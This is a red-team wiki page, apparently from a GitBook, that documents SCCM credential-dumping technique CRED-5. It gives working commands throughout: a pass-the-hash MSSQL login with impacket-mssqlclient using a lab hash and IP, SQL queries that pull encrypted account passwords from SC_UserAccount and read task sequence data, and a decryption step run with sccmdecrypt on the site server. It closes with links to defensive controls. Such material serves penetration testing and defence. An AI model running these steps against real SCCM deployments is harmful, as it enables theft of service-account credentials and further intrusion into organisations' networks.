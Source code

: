 # CRED-5 - MSSQL Database



## Document Reference

* [CRED-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5\_description.md)

### Description

Dump credentials from the site database

Site servers are granted sysadmin roles on their respective site databases. This is default and is a requirement for SCCM to function. If the site server machine account credentials have been obtained,  this  then allows for the SC\_UserAccount table to be read and obtain encrypted passwords blobs for provisioned SCCM accounts which are stored within this table. \


When this attack is performed, the encrypted data blobs must be encrypted on the site server otherwise it is not possible to decrypt them.

### Requirements

* Site database access
* Access to the private key used for encryption stored on the primary site server

## Tools Required

**Windows**&#x20;

* SQL Client (mssqlclient, SQLRecon)
* sccmdecryptpoc.exe: [https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/SCCM](https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/SCCM)

**Linux**

* mssqlclient



## Linux

{% code overflow="wrap" %}
```python
impacket-mssqlclient  -windows-auth -hashes 'aad3b435b51404eeaad3b435b51404ee:fe7f671f719978e25111c8c196662006' 'SCCMLAB/MECM$'@192.168.60.12 
```
{% endcode %}

**Dump Account Credentials**

```sql
# Connect to site database, view secrets
USE CM_[Site Code]
SELECT UserName,Password FROM SC_UserAccount
```

<figure><img src="../../../.gitbook/assets/image (2142).png" alt=""><figcaption></figcaption></figure>

**Dump Task Sequence Data**

```sql
SELECT TS_ID, Name, Sequence FROM vSMS_TaskSequencePackage
```

<figure><img src="../../../.gitbook/assets/image (2143).png" alt=""><figcaption></figcaption></figure>

## Windows

The same attack can be repeated as above in the Linux section for Windows when using mssqlclient.exe. At the time of writing I had issue authenticating as a machine account to the site server database using the suggested SQLRecon. If using a machine account mssqlclient.exe would be the preferred way of doing this, otherwise if you have access to a user who has admin rights of the site server database then SQLRecon or PowerUPSQL should be sufficient.

{% code overflow="wrap" %}
```sql
mssqlclient.exe -windows-auth -hashes "aad3b435b51404eeaad3b435b51404ee:fe7f671f719978e25111c8c196662006" "SCCMLAB/MECM$"@192.168.60.12

# Connect to site database, view secrets
USE CM_[Site Code]
SELECT UserName,Password FROM SC_UserAccount
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2144).png" alt=""><figcaption></figcaption></figure>

## Decrypt Secrets

To decrypt the data, we need to run sccmdecrypt on the main site server.

```powershell
.\sccmdecrypt.net-4.5.exe [Value]
```

<figure><img src="../../../.gitbook/assets/2024-04-19_07-51.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Needs to be run from an administrative shell on the main site server to decrypt the strings successfully
{% endhint %}

###

### Defensive IDs

* [PREVENT-10: Enforce the principle of least privilege for accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-10/prevent-10\_description.md)
* [PREVENT-18: Use strong passwords for DBA accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-18/prevent-18\_description.md)
* [PREVENT-19: Remove unnecessary links to site databases](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-19/prevent-19\_description.md)
* [PREVENT-20: Block unnecessary connections to site systems](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-20/prevent-20\_description.md)
